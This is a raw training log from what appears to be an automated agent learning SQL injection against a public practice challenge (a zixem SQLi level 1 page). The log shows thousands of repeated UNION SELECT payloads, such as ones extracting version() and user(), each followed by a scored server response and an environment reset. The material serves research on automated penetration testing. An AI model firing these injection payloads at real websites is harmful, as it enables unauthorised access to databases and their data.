https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Synta

  0%|          | 2203/1000000 [12:56:40<1467:51:30,  5.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 2204/1000000 [12:58:34<10494:44:04, 37.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2205/1000000 [12:58:35<7425:30:54, 26.79s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2206/1000000 [12:58:36<5263:00:36, 18.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server resp

  0%|          | 2207/1000000 [12:58:50<4880:41:27, 17.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 u

  0%|          | 2208/1000000 [12:59:41<7675:19:17, 27.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2209/1000000 [12:59:43<5516:57:49, 19.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 an

  0%|          | 2210/1000000 [12:59:48<4303:02:22, 15.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2211/1000000 [12:59:49<3080:05:06, 11.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2212/1000000 [12:59:51<2287:29:42,  8.25s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax err

  0%|          | 2213/1000000 [12:59:57<2134:36:17,  7.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2214/1000000 [12:59:58<1557:41:12,  5.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2215/1000000 [12:59:58<1124:36:12,  4.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2216/1000000 [12:59:59<852:46:44,  3.08s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2217/1000000 [13:00:00<662:17:28,  2.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2218/1000000 [13:00:01<529:36:18,  1.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2219/1000000 [13:00:06<776:05:49,  2.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2220/1000000 [13:00:06<607:24:36,  2.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2221/1000000 [13:00:07<489:00:35,  1.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2222/1000000 [13:00:08<406:17:12,  1.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2223/1000000 [13:00:09<349:30:25,  1.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2224/1000000 [13:00:09<308:30:49,  1.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2225/1000000 [13:00:10<281:26:21,  1.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2226/1000000 [13:00:11<261:05:31,  1.06it/s]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3

  0%|          | 2227/1000000 [13:00:53<3677:05:55, 13.27s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2228/1000000 [13:00:54<2644:23:54,  9.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 2229/1000000 [13:01:00<2357:24:56,  8.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2230/1000000 [13:01:01<1712:44:05,  6.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2231/1000000 [13:01:02<1277:58:30,  4.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2232/1000000 [13:01:02<957:04:26,  3.45s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select ve

  0%|          | 2233/1000000 [13:02:55<10057:41:19, 36.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2234/1000000 [13:02:56<7068:07:01, 25.50s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2235/1000000 [13:02:56<5018:03:02, 18.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2236/1000000 [13:02:58<3636:29:41, 13.12s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 2237/1000000 [13:03:08<3352:14:32, 12.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 2238/1000000 [13:03:27<3946:53:15, 14.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2239/1000000 [13:03:28<2825:07:27, 10.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,u

  0%|          | 2240/1000000 [13:05:13<10693:49:21, 38.58s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2241/1000000 [13:05:14<7612:58:11, 27.47s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax

  0%|          | 2242/1000000 [13:05:32<6846:30:52, 24.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2243/1000000 [13:05:33<4852:35:14, 17.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 

  0%|          | 2244/1000000 [13:05:40<4017:56:19, 14.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version

  0%|          | 2245/1000000 [13:06:20<6079:17:37, 21.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2246/1000000 [13:06:21<4323:36:57, 15.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2247/1000000 [13:06:21<3091:35:43, 11.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2248/1000000 [13:06:22<2197:51:48,  7.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2249/1000000 [13:06:23<1603:11:46,  5.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server

  0%|          | 2250/1000000 [13:07:09<4989:36:15, 18.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2251/1000000 [13:07:10<3551:58:07, 12.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2252/1000000 [13:07:11<2549:25:15,  9.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2253/1000000 [13:07:11<1852:31:29,  6.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2254/1000000 [13:07:12<1361:29:38,  4.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2255/1000000 [13:07:13<1022:30:41,  3.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2256/1000000 [13:07:14<779:10:01,  2.81s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2257/1000000 [13:07:15<614:37:39,  2.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2258/1000000 [13:07:15<496:46:26,  1.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2259/1000000 [13:07:16<408:35:58,  1.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2260/1000000 [13:07:17<355:26:10,  1.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2261/1000000 [13:07:19<393:52:40,  1.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2262/1000000 [13:07:19<342:00:26,  1.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2263/1000000 [13:07:20<301:35:44,  1.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2264/1000000 [13:07:21<276:59:49,  1.00it/s]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2265/1000000 [13:07:22<261:52:12,  1.06it/s]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2266/1000000 [13:07:22<214:47:44,  1.29it/s]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2267/1000000 [13:07:23<214:13:38,  1.29it/s]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zix

  0%|          | 2268/1000000 [13:07:39<1473:11:12,  5.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2269/1000000 [13:07:40<1093:27:05,  3.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2270/1000000 [13:07:41<836:08:37,  3.02s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
